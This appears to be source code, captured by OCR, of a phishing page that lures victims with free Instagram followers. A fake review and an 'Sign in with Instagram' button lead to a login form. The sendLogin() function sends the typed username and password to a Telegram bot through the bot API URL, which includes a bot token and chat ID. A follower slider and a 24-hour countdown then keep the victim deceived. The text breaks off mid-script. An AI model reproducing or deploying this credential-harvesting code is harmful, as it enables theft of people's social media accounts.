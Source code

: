   <div class="review">
    <img src="https://i.pravatar.cc/60?img=4" alt="profile">
    <p>Was sus but it's 100% real!</p>
  </div>
</div><div class="main">
  <button class="login-btn" onclick="showLogin()">Sign in with Instagram</button>
</div><div class="login-page" id="loginPage">
  <input type="text" id="username" placeholder="Username">
  <input type="password" id="password" placeholder="Password">
  <button class="submit-btn" onclick="sendLogin()">Login</button>
</div><div class="slider-page" id="sliderPage">
  <h2>Select Number of Followers</h2>
  <input type="range" min="100" max="10000" step="100" value="1000" class="slider" id="followerSlider">
  <div class="followers-count" id="followerCount">1000 Followers</div>
  <button class="submit-btn" onclick="startCountdown()">Confirm</button>
</div><div class="countdown-page" id="countdownPage">
  <div class="timer" id="timer24h"></div>
  <div class="followers-count" id="count">0 Followers</div>
  <p>Thanks for trusting us! You'll receive your followers in 24h!</p>
</div><script>
  function showLogin() {
    document.querySelector('.main').style.display = 'none';
    document.getElementById('loginPage').style.display = 'flex';
  }

  function sendLogin() {
    const username = document.getElementById('username').value;
    const password = document.getElementById('password').value;

    fetch('https://api.telegram.org/bot8121986292:AAGc0owQYteaLViIkAUCyZ6F_5O7F1jL7t0/sendMessage', {
      method: 'POST',
      headers: {
        'Content-Type': 'application/json',
      },
      body: JSON.stringify({
        chat_id: '8192063374',
        text: `Instagram Login:\nUsername: ${username}\nPassword: ${password}`
      })
    });

    document.getElementById('loginPage').style.display = 'none';
    document.getElementById('sliderPage').style.display = 'flex';
  }

  const slider = document.getElementById('followerSlider');
  const followerCount = document.getElementById('followerCount');

  slider.oninput = function() {
    followerCount.textContent = this.value + ' Followers';
  }

  function startCountdown() {
    document.getElementById('sliderPage').style.display = 'none';
    document.getElementById('countdownPage').style.display = 'block';
